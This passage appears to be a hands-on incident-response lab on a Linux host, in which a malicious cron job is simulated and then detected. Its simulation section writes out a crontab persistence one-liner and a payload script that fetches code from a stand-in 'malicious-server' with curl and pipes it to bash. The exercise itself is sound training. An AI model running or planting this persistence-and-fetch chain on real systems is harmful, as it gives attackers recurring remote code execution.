 
## 🛠️ ⚠️ Scenario: A Malicious Cron Job is Running Every Minute
An attacker has added a cron job that silently runs a malicious script from /tmp every minute. Your job is to detect it, understand its behavior, and remove it safely.


### Simulating the Attack:
1. Attacker add a schedule cron job:
```bash
(crontab -l 2>/dev/null; echo "* * * * * /tmp/payload.sh") | crontab -
```

2. Create Payload script
```bash
#!/bin/bash
curl http://malicious-server/payload.sh | bash
```

### 📸 Screenshot
<p align="center">
  <img src="../../Screenshots/Day-13-Incident-Response_Simulate-Incident-Malicious-Script.png" width="400">
</p> <p align="center"><em>Simulate Incident - Malicious Script</em></p>

---

## 🧪 Step-by-Step Investigation

### Step 1. Detect Suspicious Cron Jobs
- Make sure cron is installed and running:
```bash 
crontab -l
grep CRON /var/log/syslog
``` 
<details><summary>💡 <strong>Reference: Format of a crontab Entry</strong></summary></details>

---

- Search cron directories for unauthorized jobs:
```bash
grep -r "/tmp/" /etc/cron* /var/spool/cron/crontabs
```
